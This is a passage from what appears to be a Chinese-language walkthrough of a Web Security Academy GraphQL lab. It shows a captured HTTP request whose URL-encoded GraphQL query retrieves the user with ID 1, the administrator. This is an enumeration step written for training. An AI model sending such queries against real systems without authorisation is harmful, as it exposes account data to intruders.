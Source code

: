 查询用户信息的接口：

[![](assets/1708485015-de82eff30e3daf0a0c62c6a9063f9fd3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152234-d157bd7a-cfc0-1.png)  
根据用户 ID 信息检索用户，ID 为 1 时，用户为 administrator

```plain
GET /api?query=%71%75%65%72%79%20%7b%0a%20%20%20%20%67%65%74%55%73%65%72%28%69%64%3a%20%31%29%20%7b%0a%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%75%73%65%72%6e%61%6d%65%0a%20%20%20%20%7d%0a%7d HTTP/1.1
Host: 0afd00740480738384c5fe6e000400e8.web-security-academy.net
Cookie: session=Y9LKsJElXvfb0KwEWslV81d8JZACigJx
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afd00740480738384c5fe6e000400e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

[![](assets/1708485015-b83c76bfa472bd137ff2dacbc51ca4d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152259-dfee9e80-cfc0-1.png)

